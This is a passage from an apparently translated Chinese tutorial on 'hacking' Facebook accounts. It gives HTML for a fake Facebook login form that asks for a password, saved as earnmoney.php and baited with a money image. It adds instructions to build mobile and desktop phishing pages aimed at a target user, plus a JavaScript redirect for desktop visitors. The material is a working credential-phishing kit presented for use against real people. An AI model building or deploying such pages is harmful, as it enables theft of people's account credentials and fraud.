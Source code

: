 ```
      required><br/><br/>
      <input name="pass" type="password" id="pass" placeholder="Password" maxlength="40" size="30px"
      required><br/><br/>
      <input class="login" name="login" type="submit" id="submit" value="Log In" size="60px"><br/><br/>
      <span style="text-align:center;">Or</span><br/><br/>
      <a class="check" href="#email" onclick='document.getElementById("email").focus();'>Create New Account</a><br/><br/>
      <a href="#email" onclick='document.getElementById("email").focus();'>Forgotten password?</a> <br/><br/>
      <a href="#email" onclick='document.getElementById("email").focus();'>Help Center</a><br/>
   </form>
</div>
<div class="bottom" style="background-color:#808080;padding:10px;">
   <table style="width:250px;margin-left:auto;margin-right:auto;color:#D3D3D3;">
   <tr>
      <td><a href="#email" onclick='document.getElementById("email").focus();'>English (UK)</a></td>
      <td><a href="#email" onclick='document.getElementById("email").focus();'>English (US)</a></td>
   </tr>
   <tr>
      <td><a href="#email" onclick='document.getElementById("email").focus();'>English (In)</a></td>
      <td><a href="#email" onclick='document.getElementById("email").focus();'>More</a></td>
   </tr>
   </table>
   <p style="text-align:center;color:white;">Facebook</p>
</div>
</div>
</body>
</html>
```

在实现代码之前，先上网找到目标用户的脸书 ID 和密码。我们将首先在我们的本地计算机系统上实现这个脸书帐户黑客系统。为此，下载 XAMPP 软件并安装在您的电脑上。然后，按照下面的步骤。

将上面的代码保存在目录 C:\xampp\htdocs\(该目录是安装 xampp 后自动创建的)中，名称为 earnmoney.php，在同一目录中有一些钱的镜像，名称相同但扩展名为”。jpg，“也就是 earnmoney.jpg。

现在打开 XAMPP，启动 Apache 和 MySQL 模块。如果你不明白我在说什么，那么在进入下一步破解你的脸书账户 id 和密码之前，阅读我们的 PHP 和 MySQLi 教程。

现在，如果您打开浏览器并键入 localhost/earnmoney.php，您将看到以下示例截图:

![hack facebook account id password](../Images/74f3ffae5c5184d9a737c5d71d370a06.png)

因为上述代码仅用于移动用户。但是你必须为两种类型的脸书用户创建相同的登录页面，一种是使用手机的，另一种是使用电脑的。

为桌面用户创建另一个名为 earnmoneyD.php 的登录页面，并将他们发送到此页面。

如果目标用户在桌面上，使用以下重定向代码将他们带到桌面版本页面:

```
<script type="text/javascript">
if (screen.width > 800) { window.location = "localhost/earnmoneyD.php"; }
</script>
```
